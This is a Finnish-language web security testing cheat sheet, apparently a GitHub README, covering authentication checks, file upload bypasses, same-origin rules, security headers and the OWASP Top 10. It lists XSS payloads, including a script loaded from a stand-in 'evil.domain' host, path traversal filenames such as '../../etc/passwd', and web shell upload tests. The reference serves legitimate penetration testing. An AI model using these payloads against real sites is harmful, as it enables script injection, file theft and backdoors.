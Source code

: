 # Verkkosovelluksen kybertestauksen referenssi

## Autentikoinnin tarkastuslista

* Onko tunniste satunnainen, siten että sitä ei voi arvata tai päätellä?
* Voiko tunnistetta ohjata hyökkääjän haltuun jotenkin? (HttpOnly ja secure -flagit?)
* Voiko käyttäjän puolesta tehdä pyyntöjä sovellukseen? (CSRF-esto käytössä?)
* Voiko sovelluksen tarkastusta käyttäjätunnuksesta/salasanasta manipuloida?

## File upload

* Onnistuuko ajettavan skriptin upload? (WebShell-backdoor.php)
* ```filename``` attribuutin manipulointi (```*```, ```?```, ```;```, ```../../etc/passwd``` yms)
* ```null byte``` (```0x00```) käyttö esim. filename-kentän suojauksen ohittamiseen
* ```virus.exe.jpg``` vs. ```virus.jpg``` vs. ```virus.exe```
* ```x.php``` -> ```test.jpg/x.php``` 
* Ajettavaa koodia formaatin kautta (SVG, DOC, Excel, XML)
* ```Content-type``` attribuutin manipulointi
* Purettavan ```ZIP, TAR, GZ``` yms. sisällä sopiva polku, esim. ```../../backdoor.php```
* ```PDF``` on myös ZIP ja paljon muuta. 
* ```imagemagick``` tai muun taustaohjelman hyväksikäyttö


## Same-origin policy

|URL|Lopputulos|
|--|:---:|
|http://www.example.com/dir/page2.html|Ok|
|http://www.example.com/dir2/other.html|Ok|
|http://username:password@www.example.com/dir2/other.html|Ok|
|http://www.example.com:81/dir/other.html|Epäonnistuu|
|https://www.example.com/dir/other.html|Epäonnistuu|
|http://en.example.com/dir/other.html|Epäonnistuu|
|http://example.com/dir/other.html|Epäonnistuu|
|http://v2.www.example.com/dir/other.html|Epäonnistuu|
|http://www.example.com:80/dir/other.html|Epäselvä|

## HTTP headerit

|Header|Mikä se on?|
|------|-----------|
X-Content-Type-Options: nosniff|Estää MIME-typen päättelyn.|
|Content-Type |MIME-type.|
|Content-Disposition|Liitetiedostojen erottamiseen sisällöstä.|
|X-Frame-Options:SAMEORIGIN| Estää avaamisen frameen mielivaltaisesta domainista.|
|Cookie + secure| Salaa cookien. Toimii vain jos on HTTPS.|
|cookie + HTTPOnly| Cookien käsittely javascriptilla estetty.|
|Same-Site|CSRF-esto|
|Strict-Transport-Security| Käytä aina HTTPS:ää. Ignoroidaan HTTP:tä käytettäessä.|
|Cache-Control|Välimuistin käsittely.|
|X-XSS-Protection|Sisällössä potentiaalisesti XSS sisältöä.|
|X-Forwarded-For|headeri palvelimelle reverse proxy-palvelimelta. Vastaava x-forwarded-host|
|Content-Security-Policy|Rajoituksia selaimelle sisällön suhteen.| 
|Access-Control-Allow-Origin|Ohita same-origin policy (CORS)| 
|Upgrade-Insecure-Requests|HTTPS-protokolla HTTP:n sijaan automaattisesti.|

## Enkoodaukset

* normaali: ```alert(1)```
* Javascript, Octal: ```\141\154\145\162\164\50\61\51```
* HTML, hex: ```&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;```
* HTML, decimal: ```&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;```
* Javascript,HEX: ```\x61\x6c\x65\x72\x74\x28\x31\x29```
* Javascript, unicode ```\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029```
* Javascript, Unicode ```\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}\u{0028}\u{0031}\u{0029}```
* URL: ```%61%6c%65%72%74%28%31%29```
* Base64


## Javascriptin ajaminen (XSS)

* ```<script>alert(1)</script>```
* ```<script src="http://evil.domain/hak.js"/>```
* Viallinen HTML, esim. ```<scr<script>ipt>alert('XSS')</scr<script>ipt>```
* ```<img src="lol.jpg" onError=alert(1)>```
* onLoad, onChange yms. vastaavasti
* ```<img src=x onerror=alert('XSS')//``` - kommentin hyväksikäyttö
* ```<img src=x:alert(alt) onerror=eval(src) alt=xss>```
* ```<svg/onload=alert(1)>``` SVG-kuvaformaatin hyväksikäyttö + event handler.
* ```<svg id=alert(1) onload=eval(id)>```
* ```<input autofocus onfocus=alert(1)>```
* ```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```
* XML-dokumentin sisällä (CDATA ja muita keinoja)
* SVG-kuvan käyttö alustana (CDATA + script)
* JSON-rakenteen sisällä 

## URL handlerit

* data:text/html - ```data:text/html,<script>alert(1)</script>```
* ```javascript:alert(1)```
* Base64: ```data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+```
* ```mailto:```  -sähköposti
* ```callto:```  -puhelinsoitto
* ```tel:``` - puhelinsoitto
* ```file://``` - tiedostojärjestelmä

## Parametrien käsittelyn rikkominen

* Parametrin jättäminen pois
* Arvon korvaaminen (jonkun muun id, -1,  tms..)
* Toistaminen useita kertoja eri arvoilla (HTTP Parameter Pollution)
* Erikoisarvot: ```null```, ```nil```, ```NaN```, lukualueiden ääriarvot
* Erikoismerkit: ```'```, ```%``` ja muut 
* Arvojen lisääminen pyynnön mukana. 
* ylipitkän arvon käyttö
* välilyöntien käyttö alussa tai lopussa


## Piilotetut elementit käyttöliittymässä

* ```form``` elementin hidden-kentät.
* CSS-tyylien kautta piilotetut
* Position avulla piilotus

## OWASP Top 10 (2013)

* A1 Injection
* A2 Broken Authentication
* A3 Cross-Site Scripting (XSS)
* A4 Insecure Direct Object references
* A5 Security Misconfiguration
* A6 Sensitive Data Exposure
* A7 Missing Function Level Access Control 
* A8 Cross-Site Request Forgery (CSRF)
* A9 Using Components with Known Vulnerabilities
* A10 Unvalidated Redirects and Forwards


# Lisenssi

![lisenssi](88x31.png)

Creative Commons, Attribution-NonCommercial CC BY-NC
Kts. [LISENSSI](LICENSE).

